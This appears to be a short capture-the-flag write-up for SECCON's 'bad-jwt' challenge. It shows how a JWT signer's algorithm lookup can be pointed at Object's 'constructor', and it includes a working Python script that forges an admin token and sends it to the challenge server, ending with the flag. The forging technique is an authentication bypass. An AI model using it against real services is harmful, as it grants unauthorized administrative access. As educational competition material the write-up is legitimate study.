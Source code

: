 ```
...

const createSignature = (header, payload, secret) => {
	const data = `${stringifyPart(header)}.${stringifyPart(payload)}`;
	const signature = algorithms[header.alg.toLowerCase()](data, secret);
	return signature;
}
```

```sh
> const algorithms = {
... 	hs256: (data, secret) => 
... 		base64UrlEncode(crypto.createHmac('sha256', secret).update(data).digest()),
... 	hs512: (data, secret) => 
... 		base64UrlEncode(crypto.createHmac('sha512', secret).update(data).digest()),
... }

> algorithms['constructor']
[Function: Object]

> algorithms['constructor']("data")
[String: 'data']
```


```py
solve.py
import requests
import base64

header = b'{"typ":"JWT","alg":"constructor"}'
payload = b'{"isAdmin":true}'

enc_header = base64.b64encode(header).replace(b'=', b'').decode()
enc_payload = base64.b64encode(payload).replace(b'=', b'').decode()
sig = base64.b64encode(header+payload).replace(b'=', b'').decode()

cookies = {
    'session': f'{enc_header}.{enc_payload}.{sig}'
}
print(cookies)

response = requests.get('http://bad-jwt.seccon.games:3000/', cookies=cookies, verify=False)
#response = requests.get('http://localhost:3000/', cookies=cookies, headers=headers, verify=False)

print(response.text)
```

`SECCON{Map_and_Object.prototype.hasOwnproperty_are_good}`
